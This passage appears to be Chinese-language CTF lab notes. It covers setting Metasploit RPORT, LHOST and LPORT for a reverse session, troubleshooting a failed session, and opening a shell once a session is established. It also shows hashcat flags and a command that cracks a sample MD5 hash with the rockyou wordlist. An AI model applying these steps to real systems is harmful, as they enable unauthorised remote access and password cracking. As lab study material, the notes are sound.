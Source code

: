 ```rust
set RPORT 80
```

设置监听地址（为VPN提供的地址）

```rust
set LHOST 10.2.74.194
```

设置监听port（一直以为也是80 原来是考察具体的漏洞，是1337）

```rust
set LPORT 1337
```

[https://cd6629.gitbook.io/ctfwriteups/linux-privesc/cc-pen-testing](https://cd6629.gitbook.io/ctfwriteups/linux-privesc/cc-pen-testing)

出现Exploit completed, but no session was created的原因：LHOST应设为能够链接到ip的当前vpn的地址

出现链接成功后：输入`shell` 进入session （输入`help`提示）

![](https://i.loli.net/2021/06/08/YUldSLhzCiVqIAc.png)

## **Salting and Formatting**

盐的格式：

`<hash1>:<salt>`

## **hashcat**

一款hash破解工具

mode对应的md5类型表：[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

设置mode的flag

```json
-m
```

设置"attack mode"的flag

```json
-a
```

去破解`56ab24c15b72a457069c5ea42fcfc640`

需要将hash保存到本地文件中，然后hashcat自带的字典是rockyou.txt(/usr/share/wordlist/rockyou.txt)。非kali系统可能需要自行[下载](https://github.com/brannondorsey/naive-hashcat/releases)。

```json
hashcat -a 3 -m 0 ~/wordlist/hashcat/test.txt   ~/wordlist/hashcat/rockyou.txt --force
```

同理MD4。mode换为MD4对应的900就好
